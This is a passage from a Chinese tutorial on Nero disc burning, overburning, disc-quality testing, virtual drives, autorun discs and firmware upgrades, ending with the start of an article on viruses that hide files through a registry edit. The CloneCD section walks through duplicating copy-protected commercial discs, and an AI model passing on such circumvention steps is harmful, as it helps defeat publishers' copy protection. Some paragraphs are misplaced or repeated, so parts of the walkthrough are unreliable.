    - 更新备份：如果存放的目标盘是硬盘，而且选择的文件被更新或替换，备份就相应自动执行；如果存放的目标盘是光盘，则自动创建新的文件夹，重新备份相同容量的一个拷贝。
    - 差异备份：上一次完全备份后，添加或修改的选择文件都被保存。
    - 增量备份：仅保存上一次备份后增加或更改的文件。

第一次备份的时候，只能选择“完全备份”方式。当你对文件进行了更新、修改或删除操作，再次备份时，就会出现其他选项了，用户根据需要选择即可。

在“备份名称”中输入一个容易记忆的名字。单击“添加注释”按钮，输入注释文本，注释文本将出现在备份文件的属性中。这么做的目的是为了方便以后识别备份文件。

单击“更多”按钮展开高级选项卡，还可以选择在备份前对文件进行查毒、压缩和加密。
- （4）单击“下一步”按钮，进入“完成备份向导”界面，这里会显示备份名称、备份类型、文件名、目标驱动器（这里是刻录机）、估计备份大小等信息，供用户确认，如图35。

在右上方的“设置”窗格中，会详细列出最终刻录前需要对备份所做的各种设置，方便用户做最后的检查。绿色的圆点图标代表你已经完成的设置或步骤，红色的圆点图标代表没有设置这个选项或跳过了这个步骤。单击红色图标会弹出提示信息，告诉你如何进行相关设置。如果发现某项设置不正确，单击“上一步”还可以重新设置。
- （5）单击“更多”按钮展开高级选项，设置写入速度；如果备份资料很重要，建议选中“备份之后校验数据”；选中“在备份时使用影子复制”，可以备份当前打开的文件以及正在使用的文件。在刻录机中插入空白光盘，单击“备份”按钮，备份就正式开始了，生成的备份文件后缀为“.nba”。如果你不是想要立即开始，可以单击“创建作业”按钮，设定该作业操作的时间，将备份操作变成一项计划，到了设定时间，Nero BackItUp就开始检查备份的源文件是否有改动，有则备份新文件。

除了备份文件外，Nero BackItUp也支持整个硬盘驱动器或分区的备份：启动Nero BackItUp后，单击左边栏的“驱动器备份”，选择其中的一个驱动器备份，或单击“Disk”备份整个硬盘，如图36。具体操作跟“文件备份”差不多，就不详细列举了。

硬盘和驱动器的备份文件通常很大，一张光盘的容量一般都不够，BackItUp会根据光盘的容量自动分卷，用多张光盘进行刻录。第一张备份光盘通常是可引导光盘，可以在紧急情况下从光驱启动电脑。通过备份系统盘所在驱动器，你可以将操作系统和程序备份，并在以后随时恢复，类似于使用Ghost将系统备份到光盘上。

学会备份之后，下面讲解用Nero BackItUp来还原文件的方法。具体操作步骤如下：

- （1）启动Nero StartSmart，单击“备份”下的“恢复备份”，启动Nero BackItUp并进入“还原”模式。界面上部的“恢复窗口”有备份记录，单击选择相应的记录，在下方的“文件视图”窗格出现一个树形目录窗口，在其中可以选择要还原的文件，默认情况下是全部文件还原，如图37。
- （2）单击“开始恢复”，启动Nero恢复向导。单击下一步，选择恢复路径，可以选择“恢复到原始路径”或“恢复到硬盘上的指定路径”。单击“更多”按钮展开高级选项，选择恢复文件的方式，包括“不替换计算机上的文件”、“用备份可用的文件替换本地文件，仅在本地文件较旧时”、“始终替换计算机上的文件”、“恢复之前删除目标文件夹”和“逐个文件进行询问”五个选项，你可以根据需要进行选择，如图38。
- （3）单击“下一步”按钮，再单击“还原”按钮，如果已备份的本地文件有更新或删除等情况，程序会提示你插入备份光盘以完成文件恢复。

##### 12. 用Nero Burning ROM实现“超刻”

在刻录光盘时，有时候会遇到这样的情况：所要刻录的资料总容量刚好比刻录盘的标称容量大一点，一张刻录盘装不下，而使用两张盘则既浪费又麻烦。这个时候就会想，能不能让光盘扩容呢？答案是肯定的，Nero等刻录软件提供了在超正常刻录范围部分进行刻录的功能，即所谓的“超刻”。要实现“超刻”，有三个条件：刻录机支持超刻（目前市面上的绝大多数刻录机都支持超刻）；CD-R盘片支持超刻；刻录软件设置正确。

从理论上来说，每种类型的CD-R及CD-RW光盘的容量是固定的。但实际上，光盘的生产厂家在生产过程中，通常会留有一定的余地。在光盘的外缘部分，同样正常地均匀涂抹着光学材料，光盘超刻主要是利用了这段区域，这是实现超刻的物理基础。

一般来说，超刻主要是指CD光盘超刻，而DVD容量超刻则一般最多能多写入100MB左右的数据，相对DVD光盘的庞大容量来说这100MB意义不大，而且DVD超刻光盘对光驱的损耗较大，读取过程的兼容性也不好，所以不建议对DVD光盘进行超刻。

注意：超刻光盘比普通的刻录光盘容易损坏，有时可能在读取几次之后就会出现无法再读取资料的情况；而且兼容性也较差，在其他操作系统或者光驱中可能会无法读取光盘，所以非不得已，最好不要使用光盘超刻。

超刻带有一定的危险系数，超刻不当就很有可能将CD-R盘片刻废掉。但如果你掌握了正确的超刻方法，就能很顺畅地“刻”出另一片天地。下面是作者总结出的比较合理的CD-R盘片的超刻步骤，希望对你有所帮助！

### （1）测试盘片

- ① 我们首先要用Nero的“Nero CD-DVD Speed”组件来测试刻录盘，看看它的实际容量。启动Nero StartSmart，单击“其他”下的“测试驱动器”项，启动Nero CD-DVD Speed程序。也可以通过“开始”菜单中的“程序”→Nero 7 Essentials→“工具”→Nero CD-DVD Speed菜单命令来启动程序。
- ② 在刻录机中放入空白的刻录光盘，执行“其他”→“超刻测试”命令。此时弹出一个测试窗口，可以看到盘片的基本资料，包括标称容量、时间、制造厂商、盘片类型等。在“刻录速度”下选择你最后要刻录时的速度，单击“开始”按钮，程序就会自动对该光盘进行测试，这个过程不会对刻录盘写入任何数据。

说明：为了保证超刻的成功率，在刻录时不要使用刻录机的标称最高写入速度进行，一般使用标称最高写入速度的一半左右进行超刻，如“先锋112CH”刻录机写入CD-R的最高速度是40X，就用16X或者24X进行超刻，这里进行光盘测试的“刻录速度”也就应该相应地选择为16X或24X。

测试完成后会出现一个提示框，说明盘片实际最大容量的总时间和比正常多出的时间（这里总时间是82:47:60；比正常多出02:47:61），如图39。这个数据不是非常准确，再测一次可能就会有变化。最后单击“是”保存资料。
- ③ 保存测试结果后，可以看到光盘可支持的最大刻录体积为727MB，单击“关闭”按钮退出。

### （2）正式超刻

了解到该盘片具有超刻潜力，在软硬件方面均具备了超刻的必要条件，下面就得进入实战阶段了。下面以超刻一张数据光盘为例进行说明。CD为例，讲解超刻的方法。

① 启动Nero StartSmart，选择光盘类型为CD，单击“数据”下的“制作数据光盘”项，启动Nero Burning ROM，使用“文件”→“选项”命令，打开“选项”窗口并定位到“高级属性”选项卡，如图40。Nero默认启用了“启用一次性光盘超刻”选项，并将下面的“最大绝对超刻大小”容量设定到85分钟（一般稍稍超过Nero CD-DVD Speed测试结果即可）。如果你以后要用DVD进行超刻，顺便选中下面的“启用DVD超刻”选项，并将“DVD最大容量”设置为4 550MB～4 660MB之间的数值。



② 单击“确定”按钮返回Nero Burning ROM主界面，添加资料文件。实际刻盘的时候，添加的数据总量要比光盘超刻测试得到最大容量小一些。一般80分钟700MB的光盘最大容量是720MB左右，刻715MB容量一般没有问题。

③ 单击工具栏上的“刻录”按钮，进入“刻录编译”界面。在“多重区段”选项卡下，选择“没有多重区段”；在“刻录”选项卡下，设定“写入速度”为最高速度的一半左右；为了防止超刻失败，建议选中“模拟”和“写入”两个选项，先模拟一遍光盘的刻录，如成功再进行真实刻录；另外，务必要选中“结束光盘（不可再写入）（F）”一项，并将“写入方式”设为“光盘一次刻录”。最后单击“刻录”按钮，因为资料容量大于700MB，所以会弹出“超烧”对话框，单击“确定”按钮就可以实现超刻了。

提示：因为超刻光盘是在光盘默认的刻录区域外写入资料，刻录资料时光驱不会自动关闭光盘，所以需要选择“结束光盘（不可再写入！）”选项结束光盘，否则超刻光盘极有可能失败。

使用Nero Express进行超刻的操作与Nero Burning ROM基本一样，这里就不再赘述了。超刻的成功率并不是百分百的，但高质量的软、硬件，包括刻录软件、刻录机和刻录光盘会对成功超刻提供一定的保障。另外，降低写入速度也能增加超刻的成功率。

## 13.用Nero检测刻录盘品质

Nero软件套件中有一个Nero CD-DVD Speed，利用它，我们可以选购到高品质的空白刻录盘，并对刻录好的光盘进行全面准确的测试。

市场上的假冒伪劣光盘是非常多的，我们可以用Nero CD-DVD Speed来辅助选购。在刻录机中插入光盘后，在“开始”菜单中单击“程序”→Nero 7 Premium→“工具”→Nero CD-DVD Speed命令，或者启动Nero StartSmart后，单击“其他”下的“测试驱动器”项，启动Nero CD-DVD Speed程序。单击“光盘信息”选项卡，程序就会自动检测当前盘片，并给出详细信息。如图41所示，笔者检测的是柯达的CD-R盘片，在这里可以清晰地看到制造商为Kodak，盘片类型为CD-R，刻录速度最高支持到40X，容量为703MB，各种信息非常完整，这样的盘片质量是可靠的。如果制造商显示为“未知”，“MID”无法显示或信息显示不完整，就最好不要选择这样的盘片。



这个测试的作用在于我们可以知道所测试的空白光盘可以最大支持的速度刻录，避免了因选择了超过光盘允许的最大刻录速度而“飞盘”的危险。

对于每一个拥有刻录机的朋友来说，刻录品质是最为重要的。你可能有过这样的经验：刻录出来的盘片在自己的电脑上能顺利读取，但换了一台电脑却会读起来很困难，甚至可能无法读取！其实像这样的情况主要就是由于刻录品质的影响，简单来讲，刻录品质越差的盘片，错误越多，在不同的电脑中被正确识别就越困难。前面我们已经讲了如何检测空白盘片的品质，那么如何检测刻录好的盘片的刻录品质呢？利用Nero CD-DVD Speed也能轻松做到。



我们知道，很多劣质光盘实际刻录时，往往都达不到标称的刻录速度，在大量购买刻录盘以前，测试盘片的品质也是一个不错的主意。在刻录机中放入要测试的空白光盘，启动Nero CD-DVD Speed，单击“基准”选项卡，再单击“开始”按钮进行传输速率测试。这个测试可以对光盘在这台刻录机里能够支持的最大刻录速度进行测试，并且显示刻录机可以以何种方式刻录这张光盘，以及大约花费的时间。请放心，这个操作并不会破坏空白光盘，只是一个模拟写入测试。

如图42所示的测试结果表明：这张标称为16X的DVD光盘起始刻录速度为7.54X，结束速度为18.02X，平均刻录速度13.45X，这个成绩在16X的DVD光盘中算是不错的，用18X的速度来刻录这张光盘是不会有什么问题的。刻录机工作的传输模式为CAV方式，刻录这张光盘需要的理论时间为5：00。

我们知道，刻录速度对刻录品质有很大影响。通常情况下，刻录速度越低，刻录品质就越高，因此就出现了某些盘片在高速刻录时要“飞盘”，而低速时却能正常刻录的现象。如果你要测试你的刻录机或者是刻录盘片的话，应采用刻录机的最高速度来刻盘。此外，大多数刻录机只能在光盘的最外圈达到最快速度，为了得到准确的测试结果，应该尽可能写入接近刻录盘极限容量的文件，然后再用软件对光盘进行检测，这样得到的结果才是最真实的，如音乐CD的容量应在70分钟或更高，DVD光盘的容量应在4GB或更高。

另外，Nero CD-DVD Speed提供了配套的“创建光盘”功能，它会自动生成数千个大小不等的文件将刻录盘刻满。如果要对比不同刻录盘的刻录品质，我们建议大家就使用“创建数据光盘”功能生成的盘片，这样标准比较统一。具体操作方法是：

插入要检测的已刻录好的CD或DVD光盘，单击ScanDisc选项卡，再单击“开始”按钮，即可对光盘进行表面扫描。这样，我们很容易地就能发现在光盘数据中是否存在错误，存在什么样的错误。其中绿色小方块是完好的数据，黄色小方块是已损坏的数据，红色小方块则是无法读取的数据。如图43所示，被检测的光盘的数据完好率为99.7%。这说明该盘片在读取上不会存在太大问题，但要用来做母盘的话，还是不行的。如果刻录质量实在太差，甚至无法完成刻录品质的检测，软件就会中途报错。

我们看到，光盘没有出现C1、C2错误，因此这张盘片完全能满足刻录VCD和一般数据光盘的要求，就算刻录的是音乐CD也会获得良好的音质，最后软件还对光盘品质进行了打分，其得分为100分。

## 14.用Nero InCD将可擦写光盘“变为”移动硬盘



ScanDisc功能只是对光盘做一个粗略的测试，我们也可以用Nero CD-DVD Speed中的“光盘质量”测试来对光盘进行详细检测，具体方法如下：
对于CD-R盘片来说，单击“光盘质量”选项卡，单击“开始”按钮进行测试。在检测过程中，软件对光盘上的数据进行检测和纠错，如果有错误发生，则会记录发生错误的平均值和最大值，分别表现为C1错误、C2错误和偏差的平均值和最大值。CD的纠错分两阶段进行：第一阶段（C1阶段）中完成的纠错部分称为C1出错，最基本的错误都在这一步被纠正，C1出错后纠正不了的部分会在第二阶段（C2阶段）被纠正，此部分称为C2出错。在C2阶段也纠正不了的部分就成为CU出错（Uncorrectable Error），如果刻录的是音乐CD，盘片就会出现杂音、爆音。发生C2出错的原因，一般可认定为CD-R盘片的刻录品质不好。“偏差”是指数据信号相对于系统时钟的误差，该值以百分比计算，也是越小越好。

DVD刻录因其巨大的数据存储量，刻录品质就显得更为重要。使用Nero CD-DVD Speed的“光盘质量”检测DVD刻录盘的质量时，标准和参数又有所不同。其评测标准的含义具体如下：
- PI Errors缩写为PIE，即内部校验错误。DVD刻录规范中定义：一个ECCB（DVD光盘中存储数据的基本单位，可以把它理解为硬盘上的扇区）中的一行内，如果出现了一个字节及以上的错误，则称为一个PI Error。该值越小，DVD品质越好。
- PI Failures缩写为PIF，即不可修复的PI错误。当一行内的错误经过PI纠错后，仍然大于5个字节，则称为PI Failure。该值越小，DVD品质越好。在光驱读盘的过程中，如果出现了PIF，则交由PO校验机制来处理。如果PO恢复都失败了，出现POF，那么这个ECCB便有可能无法读取了。对一张DVD光盘来说，出现了POF就代表这张光盘已经报废了，POF是不允许出现的。
- 偏差：是指数据信号相对于系统时钟的误差，该值以百分比计算，也是越小越好。

那么PIE和PIF处于什么范围内，DVD品质才算好呢？就一般情况和作者个人经验来说，给出一个大致参考：PIE最大值应该在30以下，差一点的也会在50以下；而PIF最大值一般也都在12以下。总值方面而言，一般来说，对于优秀品质的DVD光盘来说，PIE总数大致在20万以下，PIF总数在1200以下。

如图45所示为一张DVD的测试结果，从其中可以看到，光盘的刻录质量不太好，得分仅为73分，但PIF最大值没有超过30，读取数据还是没有问题的。因为DVD光盘容量巨大，所以整个测试过程会比较漫长，如果要节约时间，建议选中“快速扫描”以后再单击“开始”进行测试，当然测试的准确性就会差一些。

如果C1/C2出错纠正的次数在一定范围以内，对音乐CD-R盘片的音质来说影响不大，但如果刻录的是数据的话，就会影响盘片的读取，导致读取困难。C1错误的发生是难以避免的，但是发生次数总是越低越好的，一般来说，C1平均值应在7以下。如果平均值在5以下，刻录VCD的效果会不错；平均值在2以下刻录数据以及音乐CD会有不错的品质。而C2则不同，如果超过0的话，就证明该光盘品质出现问题，而且会影响光盘的读取与寿命。





如图44所示为一张CD的检测结果，我们可以看到，光盘没有出现C1、C2错误，因此这张盘片完全能满足刻录VCD和一般数据光盘的要求，就算刻录的是音乐CD也会获得良好的音质，最后软件还对光盘品质进行了打分，其得分为100分。

当我们用刻录机备份那些经常有变动的数据时，用一次性的刻录光盘就实在浪费了，所以一般都使用可擦写的刻录光盘，但是数据的每次变动都要进行备份，抹除光盘后，再重新刻录所有数据，这样就会麻烦。没关系，从Nero 6开始，Nero套件中有了一个Nero InCD程序，它可以让你像使用移动硬盘一样使用可复写光盘！直接把需要刻录的文件拖放过去就能保存到光盘里了，也可以利用应用程序将数据保存到光盘上。删除操作同样简单之极，把垃圾文件拖到回收站里就OK了！这对于经常需要拷贝许多大文件的用户来说是非常适合的。由于Nero InCD的数据写入方式独特，因此不必担心因缓存不够导致刻录时出错，下面我们就来看看怎么样使用这个功能。

安装了Nero 7 Premium后，会在任务栏常驻Nero InCD程序，将CD/-RW或者DVD+RW/-RW可擦写光盘放入光盘刻录机中，此时Nero InCD会自动检测到光盘并打开主程序。硬盘需要进行分区和格式化才能使用，同样，第一次使用可擦写光盘时，也要对光盘进行格式化操作。Nero InCD提供了“快速”和“完全”两种格式化方法。“完全”有点类似我们在Windows中使用的完全格式化，对于可擦写光盘来说是对物理层进行格式化，原先光盘中的所有数据都会被抹除。“快速”类似我们使用的快速格式化，但它只是将有关文件的信息删除，而文件真正的数据还是保存在光盘上。

在开始第一次刻录前，最好先使用“完全”格式化，虽然会费点时间，但以后每次使用时只要快速抹除即可。这样可以保证可擦写光盘在读取时比较顺畅。为了方便识别，还可以自定义“卷名”。最后单击“开始”按钮即可执行格式化。

格式化完成之后，在“我的电脑”中双击打开刻录机对应的盘符，就可以像使用硬盘一样，直接进行文件的拷贝和删除等操作，最后取出光盘就可以使用了。下次使用时，还可以继续将文件刻录到可擦写光盘中。在可用空间不足的时候，可以删除光盘上的一些数据。如果要用Nero Burning ROM/Nero Express来刻录这张光盘，则需要进行“抹除光盘”操作，然后再次格式化光盘，就又可以重新刻录了。

## 15.玩转光盘映像文件

至此，细心的读者可能会发现，本文多处涉及到光盘映像文件，要想成为刻录高手，就必须熟练掌握光盘映像文件。光盘映像文件又叫做光盘镜像文件，它是一种包含源光盘所有资料、资料存放结构、数据、信息等所有内容的文件。那么将光盘制成映像文件有何好处呢？首先是方便传输，光盘映像可以通过网络传输，再刻录为光盘；第二是减少光驱损耗，将原版光盘备份为光盘映像后，只需要配合虚拟光驱类软件，就可以减少物理光驱的读写，以延长光驱寿命；除此之外读取光盘映像的速度远比读取光驱快得多，所以可以进一步加快游戏或图形图像软件的运行速度。

### (1) 使用Daemon读取光盘映像

安装Daemon并重新启动电脑后，在“我的电脑”中会多出一个光盘驱动器盘符。在任务栏托盘区的Daemon图标上单击鼠标右键，选择“虚拟CD/DVD-ROM”→“驱动器0：[H:]没有媒体”（“H:”是虚拟出来的盘符）→“安装映像文件”命令，如图46。在打开的对话框中选择要读取的映像文件，然后单击“打开”按钮即可将其打开。如果映像文件不在Daemon默认支持的文件格式范围内，可以在“文件类型”下拉菜单中选择“所有文件”，然后再将其打开。


图46 安装映像文件

映像文件加载完毕后，在“我的电脑”中即可看到所添加的镜像文件，使用起来就如同使用物理光驱中一样。如果要同时加载几个光盘映像文件，可以在“设置驱动器数量”下进行设置。如果不需要再读取此镜像文件时，就要把它卸载掉，方法是：在Daemon图标上右击，选择“虚拟CD/DVD-ROM”→“驱动器……”→“卸载镜像文件”命令。

### (2) 使用Nero ImageDrive读取光盘映像

Nero ImageDrive是Nero自带的虚拟光驱软件，可能很多使用Nero的用户都会忽视这个程序，其实该程序十分方便实用，下面就来介绍它的使用方法。

在“开始”菜单中单击“程序”→Nero 7 Premium→“工具”→Nero ImageDrive命令启动Nero ImageDrive。首次使用时程序提示Nero ImageDrive当前被禁用，询问你是否要启用，单击“是”。在弹出选项窗口，选择启用一个或两个虚拟光驱，然后单击“确定”按钮。

进入控制面板，双击Nero ImageDrive，进入“第一个驱动器”选项卡，如图47。单击“图像”下拉列表框后的省略号按钮，选择要打开的映像文件（Nero ImageDrive只支持nrg和iso格式的映像文件），此时映像文件就已经加载了，此时在“我的电脑”中可以看到并使用它。如果要卸载映像文件，单击“弹出”按钮即可，如果要停用Nero ImageDrive，单击“禁用”按钮即可，此时多出来的那个虚拟光驱盘符将自动消失。



图47 加载映像文件

#### 六、用CloneCD备份加密光盘

前面我们学习过使用Nero复制光盘。但有一些大型的商业软件或者游戏软件，在制作过程中对光盘的盘片做了保护，所以即使将光盘上的文件都复制下来，也可能无法替代原有的光盘正常使用。针对这些情况，我们可以使用CloneCD将软件、音乐CD、影碟、游戏光盘中的数据备份到另外一个光盘上。CloneCD就是为复制CD而专门推出的光盘备份、刻录程序，不管光盘是否进行过保护或加密，它都可以将光盘内容复制下来并刻录到刻录光盘中，而且在复制光盘时，它会先把从源光盘中复制的内容作为临时文件保存在电脑上，然后再复制到目标光盘中，所以用CloneCD复制光盘只需要用到一个光盘驱动器。尽管其体积小巧，功能单一，但CloneCD在光盘复制方面的表现却是所有刻录软件中最好的。下面我们基于CloneCD 5.3.0.1版来介绍其使用方法。

CloneCD支持包括简体中文在内的多国语言，第一次启动CloneCD时，会首先弹出选择语言种类的界面，对于英文不好的朋友来说，可以选择Simp.Chinese（简体中文），然后单击OK按钮即可。把源盘放入光驱，启动CloneCD主界面后，执行“文件”→“复制光盘”命令，或者单击“复制光盘”（左数第三个）按钮，如图48。



图48 CloneCD的界面非常简洁

如果电脑有两个以上的光驱，这时会要求你选择读取源盘的驱动器。然后单击“下一步”按钮，此时程序将自动对光盘进行分析，根据实际情况，选择要复制光盘的种类，如Audio CD，单击“下一步”按钮，打开如图49所示的界面。



图49 设置复制选项

CloneCD先会把光盘中的资料复制到系统的临时文件夹中，默认情况下，该文件夹位于系统盘中，如果该分区空间不够，可单击“浏览”按钮另外选择保存路径，单击“下一步”按钮。为避免浪费空间，可选择“刻录成功后删除”选项，这样在备份光盘完成后，系统会自动删除刻录光盘留下的临时文件。左侧窗格中其他两个复选框的作用分别如下：

- ★创建 “Cue-Sheet”：Cue-Sheet即CUE文件，它是光盘映像辅助文件或称标记文件，按照文本文件格式编制。在播放和刻录的时候有至关重要的作用。播放的时候它能够帮助你实现自由选曲，在刻录中，它可以指挥刻录软件刻什么格式，刻录那些内容，从哪里开始，到哪里结束，附加什么信息等。有了Cue-Sheet文件，既可以减少刻录的准备工作以提高刻录效率，又可以保证刻录的准确性。
- ★复制 “on the Fly”：该选项的作用和Nero Burning ROM复制光盘时的“直接对烧”类似，在具有两个驱动器时可用。选中此复选框将不在硬盘上创建映像文件，直接将光驱中的源盘数据刻录到刻录机中的空白光盘上。

单击“下一步”按钮，系统会将源光盘中的资料制作为一个映像文件。映像文件制作完成后，会自动弹出源光盘；并弹出一个对话框提示用户取出源光盘放入目标光盘。此时放入空白的刻录光盘后，然后单击“确定”按钮。

稍等片刻，会打开如图50所示的对话框。在“刻录速度”下拉菜单中选择一个较低的写入速度，以确保复制成功率和质量，选择刻录光盘种类（和前面所选一致）。最后单击“确定”按钮，系统会正式开始向刻录光盘中写入数据，完成后，将自动出现一个对话框提示用户复制完成。



图50 配置刻录属性因为CloneCD采用的工作模式是RAW模式，所以能真实地1:1复制CD，不管是否有保护或加密之类，它仍然会忠实地将它复制下来。对于很难读取或者轻度损坏、读取不顺畅的CD光盘，CloneCD也同样能复制下来。此外，CloneCD还具有“将光盘制作为映像”、“刻录映像文件”、“擦除光盘”等功能，使用方法都非常简单。

#### 七、制作自动运行光盘

很多光盘为方便用户使用，设置成自动运行的方式，用户只要将光盘放入光驱，或在“我的电脑”中双击访问光驱时，就会自动执行特定的程序，例如，出现软件安装画面、动画播放界面等。其实，普通用户也可以亲手制作自动运行光盘。

制作自动运行光盘的方法主要有两种：一种是用记事本手动编写自动运行的信息文件（Autorun.ini），这种方式稍微复杂，适合于有一定电脑基础的用户；另外一种是利用专门的软件（如Autorun Builder）来制作自动运行光盘，这种方式比较简单，只要按照软件向导提示的步骤操作，就可顺利制成自运行光盘。

下面以Autorun Builder V 1.2版为例，讲解制作自动运行光盘的方法。

- （1）启动Autorun Builder程序，出现制作向导后，输入Autorun名称，单击“下一步”按钮。此时要求选择Autorun的界面类型，Autorun Builder允许制作有边框和无边框两种Autorun界面，有边框的界面有一个“关闭”按钮，而无边框则没有。这里还可以为Autorun界面选择背景图片，不过程序只支持BMP格式的图片，如图51。



- （2）单击“下一步”按钮，输入将会显现在Autorun界面上的标题，如“我的摄影作品”。继续单击“下一步”按钮，选择要在Autorun界面上显示哪些项目，这些项目的描述文字也可以更改。这里将“关于这个程序”改为“关于这张光盘”，如图52。设定好以后单击“下一步”按钮。



- （3）前面选择了要显示哪些项目，在下面的步骤中就要对这些项目进行设定，比如输入主页地址、电子邮件地址、“关于这张光盘”的相关信息等，如图53。单击“下一步”，程序提示你Autorun已经制作完成，你可以选择进一步编辑Autorun或者运行它预览效果，如图54。





#### 八、升级刻录机Firmware

Firmware（固件）是刻录机内的一个芯片，其作用相当于设备的“大脑”。在一款刻录机上市之后的一段时间内，厂家还会在其网站上不断发布新的Firmware版本。和刷新主板BIOS类似，Firmware的升级是尤为重要的，因为这关系到刻录功能/规格的完善，还能解决刻录机的一些设计缺陷，使刻录速度得到提升，同时盘片和刻录软件的兼容性也能大幅提升。下面以“先锋112CH”刻录机为例，来讲解升级刻录机Firmware的方法。

首先，建议检查一下刻录机的Firmware的版本号。如果你使用的是Windows 9x/Me操作系统，请进入“设备管理器”→“DVD/CD-ROM驱动器”→“ATAPI CD-RW 48X24（刻录机信息）”，在“设置”选项卡中就可以查看Firmware的版本号。如果你使用的是Windows 2000/XP操作系统，可以使用Nero InfoTool来查看。在“开始”菜单中单击“程序”→Nero 7 Premium→“工具”→Nero InfoTool命令，启动Nero InfoTool。经过短暂地检索，即可在Drive选项卡下看到刻录机的固件版本，如图55。

确定了刻录机的Firmware版本之后，就可以到网上下载相匹配版本的Firmware升级文件。登录先锋刻录机官方网站“www.pioneer-dvd.com.cn”，下载“先锋112CH”最新版本的Firmware，本例中的版本号为1.22。将下载回来的文件解压缩，得到“UPR12.exe”和“A0013001.122”两个文件，双击运行“UPR12.exe”文件，程序询问你是否确定要将112CH刻录机的Firmware从1.15版升级到1.22版，单击“是”按钮，等待大概30秒左右时间，直到系统提示升级完成，期间要注意电脑一定不能断电。此外，我们还须留意一下升级方式：有的刻录机固件升级必须在DOS下进行；有的产品则支持在Windows的固件升级；有的则同时提供两种升级方式。不过现在Windows操作系统已经相当成熟了，一般来说明并不推荐在DOS下升级。



| 项目 | 参数 |
| :--- | :--- |
| DVD-R/RW | Pioneer DVR-112 |
| 固件版本 | 1.22 |
| 刻录速度 | 20X |
| 缓存大小 | 2048KB |
| 可支持光盘 | DVD-R, DVD-RW, CD-R, CD-RW |
| 刻录机类型 | DVD±RW |
| 接口 | IDE |
| 区域码 | 无 |

#### 九、DVD刻录常见问题与解答

新手在学习DVD刻录的中会肯定会遇到不少难题，这里将一些具有代表性的问题总结出来，目的是让读者提高学习效率，少走弯路。

- （1）问：近日购买了一台DVD刻录机，回家装好后发现电脑无法启动了，请问是何原因？
答：可能是刻录机与另一个IDE设备使用了同一条数据线，且用来控制两者主从关系的跳线没有设置好引起的。请参阅相关资料（在光盘刻录机的说明书上有安装说明），将其中一个IDE设备设为“主盘（Master）”，另一个设为“从盘（Slave）”即可。

- （2）问：DVD刻录机是20X的，但为什么我刻DVD-R盘时，刻录速度只能达到4X，在Nero里也只能选择最大4X？
答：因为你的DVD刻录盘只支持4X的最大刻录倍速，刻录盘同样有速度限制。

- （3）问：为什么“模拟刻录”已经成功，但真正刻录时还是失败？
答：“模拟刻录”与“刻录”的差别在于有无打出激光，其他动作基本相同。“模拟刻录”可测试待刻资料是否正常，硬盘速度是否够快，所剩光盘空间是否足够等。但无法得知待刻录的光盘是否有问题，刻录机的激光读写头功率与光盘是否匹配。所以，“模拟刻录”成功，但实际刻录失败。说明刻录机与刻录盘存在兼容性问题，或是光盘自身存在质量问题。可换一张光盘或换一个品牌的光盘试试。

- （4）问：今天用刻录机的时候，从光盘托盘下掉出一个白色泡沫片，环形，大小跟光盘内缘的空白区差不多。现在刻录机能正常使用，只是噪声似乎要大点，请问掉出的是什么东西，需要装回去吗？
答：应该是盒装的空白DVD刻录盘里的防震泡沫垫片，是用来保护盘片的。在刻光盘的时候没注意，很容易直接放进去。这种事故经常发生，会造成对刻录机的损伤，请一定要注意。

- （5）问：为什么我的刻录机弹不出光盘？
答：首先请确定你没有正在进行刻录的工作，如果刻录机正在刻录，此时刻录机上的Busy灯会闪烁，刻录完成时就自然会将光盘退出来。如果不是的话，你就要看看是不是有以下的问题：①封包式写入的软件（如Direct CD），可能已经锁住了刻录机的退出键，你要利用该软件才能退出光盘。②搬动电脑时，造成盘片在刻录机内部晃动，导致光盘卡住不能弹出，此时可以用扳直了的回形针一头插入刻录机面板上的手动弹出孔，强制托盘弹出。如果还是不行，则只能找专业维修人员拆开刻录机取出光盘了。

- （6）问：我想用USB转接盒将DVD刻录机转成外接式，有什么注意事项吗？
答：不建议这么做，目前市场上的转接盒品牌繁多，产品混乱，无法保证兼容性和稳定性。一部分转接盒因为采用老型号芯片，可能会根本无法识别新型号DVD刻录机；即使可以识别，也不代表就能正常工作。最早开发USB规范时其主要考虑点是为了支持即插即拔式的低速、非连续性数据传输的设备，如鼠标、键盘等，后续再扩展出支持高速数据传输的功能，不支持“点对点”的通讯方式。为保证刻录的成功率和刻录品质，DVD刻录机对刻录过程的精确控制会变得很重要，若随便使用市面上的USB转接盒，很有可能会无法达到高倍速的刻录，也会增大刻废盘的机率。因此，建议用户选购大厂名牌的外置式DVD刻录机，品质会有保证。

- （7）问：我买的DVD-RW光盘容量是4.7GB，使用完全方式擦除光盘花了半个多小时，时间太长了，该怎么办？
答：选择快速方式擦除光盘即可，只要30秒左右。

- （8）问：我无意间删除了CD-RW光盘上的文件，怎么才能找回来？
答：用传统恢复工具是没办法恢复的，可以使用专门的工具，如CD/DVD Diagnostic。

- （9）问：为了毕业留念，同学们计划制作一张光盘留做纪念，刻录机随便就可以找到了，但是追求完美的同学们还想要在光秃秃的盘面上做张图片，该怎么实现呢？
答：利用Nero 7附带的Nero Cover Designer工具就可以进行制作，可以很方便地制作出精美光盘封面和标签来美化我们的CD。使用其内置的模板，更可以节省很多制作步骤。

结语：要成为一个DVD刻录高手，需要经过反复的实践操作，中间难免会浪费很多刻录盘。强烈建议用户购买几张CD-RW或DVD-RW光盘，利用它练习刻录光盘，这样可以有效降低成本。

### 隐藏文件 想看就看

◆文/啄木鸟

现在很多流行的病毒为了隐藏自己，总是修改注册表信息，这样当我们点击打开“我的电脑”，单击“工具”→“文件夹选项”→“查看”→“显示所有文件和文件夹”命令，都无法查看到隐藏文件，甚至默认为“隐藏”与“显示”所有文件和文件夹的选项都被选中。那么，怎样才能避免这样尴尬的情形发生呢？很简单，只有未雨绸缪，提前做好预防。下面笔者就将自己一点经验来和大家分享一下。

### 1.问题分析及解决

隐藏的系统文件之所以无法查看，是因为在注册表“HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\Advanced\Folder\Hidden\SHOWALL”子键下的CheckedValue键值被修改为0，有的病毒甚至使出了更为狠毒的招数，它在修改注册表达到隐藏文件目的之后，为了稳妥起见，把本来有效的DWORD值CheckedValue删除掉，新建了一个无效的字符串值CheckedValue，并且把键值改为0。

### 2.预防“显示所有隐藏文件”选项被修改

